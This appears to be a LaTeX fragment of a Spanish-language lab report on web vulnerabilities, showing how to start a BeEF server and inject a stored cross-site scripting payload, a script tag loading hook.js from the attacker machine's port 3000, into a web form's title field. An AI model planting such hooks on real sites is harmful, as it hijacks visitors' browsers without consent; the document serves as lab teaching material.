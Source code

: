 \documentclass{report}
\begin{document}
                Para empezar, vamos a iniciar el servidor de BeEF.
                \begin{center}
                    \texttt{sudo beef-xss}
                \end{center}
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.1.png}
                    \caption{Servidor de BeEF}
                \end{figure}
                \clearpage
                Una vez iniciado, vamos a crear un evento en la página web y vamos a inyectar el siguiente código en el campo 'Titulo':
                \begin{center}
                    \texttt{<script src="http://IP:3000/hook.js"></script>}
                \end{center}
                Siendo IP la IP de la maquina donde está corriendo el servidor de BeEF, en mi caso, 192.168.1.69.
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.2.png}
                    \caption{Inyección de código}
                \end{figure}
\end{document}
